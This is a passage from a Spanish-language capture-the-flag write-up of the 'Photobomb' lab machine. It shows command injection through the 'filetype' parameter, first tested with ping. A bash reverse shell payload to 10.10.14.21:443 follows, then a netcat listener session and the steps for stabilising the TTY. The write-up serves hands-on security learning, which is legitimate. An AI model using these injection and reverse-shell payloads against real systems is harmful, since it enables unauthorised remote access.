 Si probamos a introducir un patrón de inyección de comandos con ping en los parametros, parece que en uno funciona:

```
photo=finn-whelen-DTfhsDIWNSg-unsplash.jpg&filetype=jpg;+ping+-c+1+10.10.14.21&dimensions=3000x2000
```

![Error](/assets/writeups/photobomb/6.png)

El parametro `filetype` es vulnerable a inyección de comandos.

Ahora obtengamos acceso al sistema con una reverse shell:

```
photo=finn-whelen-DTfhsDIWNSg-unsplash.jpg&filetype=jpg;bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.21/443+0>%261"&dimensions=3000x2000
```

{% highlight bash %}
❯ nc -lvnp 443
Connection from 10.10.11.182:39576
bash: cannot set terminal process group (731): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ script /dev/null -c bash #Iniciar un nuevo proceso
script /dev/null -c bash
Script started, file is /dev/null
wizard@photobomb:~/photobomb$ ^Z # CTRL + Z
[1]  + 8086 suspended  nc -lvnp 443
❯ stty raw -echo; fg #Establecer ciertas opciones de la tty
[1]  + 8086 continued  nc -lvnp 443
                                   reset xterm #Inicializar terminal

wizard@photobomb:~$ export TERM=xterm #Establecer el tipo de terminal
wizard@photobomb:~$ stty rows 37 columns 151 #Establecer filas y columnas de la tty
{% endhighlight %}
